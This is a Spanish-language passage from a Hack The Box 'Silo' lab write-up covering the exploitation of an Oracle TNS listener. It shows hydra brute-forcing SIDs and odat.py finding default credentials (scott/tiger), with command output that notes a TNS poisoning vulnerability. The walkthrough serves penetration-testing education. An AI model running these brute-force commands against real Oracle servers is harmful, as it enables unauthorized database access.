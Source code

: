 ...

## Explotación [#](#explotacion) {#explotacion}

Siguiendo la guía, podemos enumerar **SID**s, que son las instancias que nos permiten conectarnos a las bases de datos del servicio. Lo que me da a entender que si no tenemos algún **SID** no podremos entrar o comunicarnos con ninguna DB. Leyendo encontramos que las instancias tendrán el mismo nombre que las bases de datos peeeero sin el dominio (jmm).

* [¿Qué significa **SID** en Oracle?](https://www.lawebdelprogramador.com/foros/Oracle/596788-que-significa-SID.html).

> The SID (Service Identifier) is essentially the database name. [Pentesting 1521](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener).

Bien, podemos usar varias herramientas para hacer un brute force e intentar descubrir **SID**s disponibles, usaremos `hydra` con un wordlist (sids-oracle.txt) que nos probee la propia guía 🥰 :

```bash
❭ hydra -L sids-oracle.txt -s 1521 10.10.10.82 oracle-sid
[DATA] attacking oracle-sid://10.10.10.82:1521/
[1521][oracle-sid] host: 10.10.10.82
[1521][oracle-sid] host: 10.10.10.82   login: CLRExtProc
[1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
[1521][oracle-sid] host: 10.10.10.82   login: XE
1 of 1 target successfully completed, 4 valid passwords found
```

Bien, nos encuentra presuntamente 3 **SID**s válidos en el servicio, siguiendo la guía, ahora podríamos conectarnos a ellos, pero claro, nos faltan credenciales para usar :P

Podemos también realizar fuerza bruta para encontrar usuarios y contraseñas válidas contra cada **SID**, esto lo podemos hacer con la herramienta [odat.py](https://github.com/quentinhardy/odat) que tiene muuuuuuuuuuuuchas opciones para jugar contra bases de datos **Oracle**.

Acá estuve un buen rato intentando instalarla (por ciego), ya que `odat` necesita unas librerías de Oracle y para instalarlas la misma guía nos <guia> a "[Oracle pentesting requirement installation](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation)" donde después de instalar las cosillas obtenemos dos cosas importantes:

* `sqlplus`, que nos servirá para conectarnos a la base de datos desde la consola.
* Que `odat.py` se ejecute sin problemas :)

> Si la guia inicial es confusa o cualquier cosa :P Les [paso otra que encontre un poco más detallada](https://dastinia.io/tutorial/2018/07/31/installing-oracle-database-attacking-tool-on-kali/) :)

Entonces, si nos dirigimos a la [Wiki](https://github.com/quentinhardy/odat/wiki) de `odat.py`, vemos como hacer fuerza bruta para encontrar usuarios basados en los **SID**:

![131google_odatWiki_usagewithSID](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131google_odatWiki_usagewithSID.png)

Probando con cada uno, el único que nos da resultado es el **SID -> XE**:

```bash
❭ python3 odat.py all -s 10.10.10.82 -p 1521 -d XE
[+] Checking if target 10.10.10.82:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.10.10.82:1521 is well configured. Continue...

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Searching valid accounts on the XE SID
...
[+] Valid credentials found: scott/tiger. Continue...
...
```

